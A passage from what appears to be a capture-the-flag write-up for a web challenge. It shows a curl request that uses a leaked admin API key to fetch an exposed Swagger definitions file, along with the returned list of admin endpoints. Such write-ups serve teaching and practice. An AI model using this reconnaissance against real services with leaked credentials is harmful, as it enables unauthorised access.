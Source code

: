![alt text](./.imgs/swagger.png)

> `FUN FACT`:
> If you understand web development, Swagger is usually used to debug the API before deploying it to the outer world, but sometimes developers forget to turn it off or accidentally let it expose it to the internet. And we the "Swagger definitions file" which is usually a JSON file is leaked, we can sometimes elevate it to attack further.

OK, now if you make a request to `http://challenge.com/v1/api/admin/swagger.json` with the API key included in the `Authorization` header

```bash
curl http://localhost:3000/v1/api/admin/swagger.json -H "Authorization: Bearer SUp3Rs3cReTAPI_k3y--f0r-_c0deCtFAdMiN" | jq

# the point of | jq was to beautify the JSON, if you don't like it, get rid of it.
```

The response will be:

```json
{
  "openapi": "3.0.0",
  "info": {
    "title": "CodeCTF Web Services - CWS Administrator Endpoints",
    "version": "1.0.0",
    "description": "API docs"
  },
  "paths": {
    "/v1/api/admin/swagger.json": {
      "method": "GET",
      "description": "Showing all available endpoints.",
      "parameters": null
    },

    ...

    "/v1/api/admin/guardduty/status": {
      "method": "GET",
      "description": "Threat and brute forcing detection ( Not working rn ! ).",
      "parameters": null
    }
  },
  "components": {},
  "tags": []
}
```
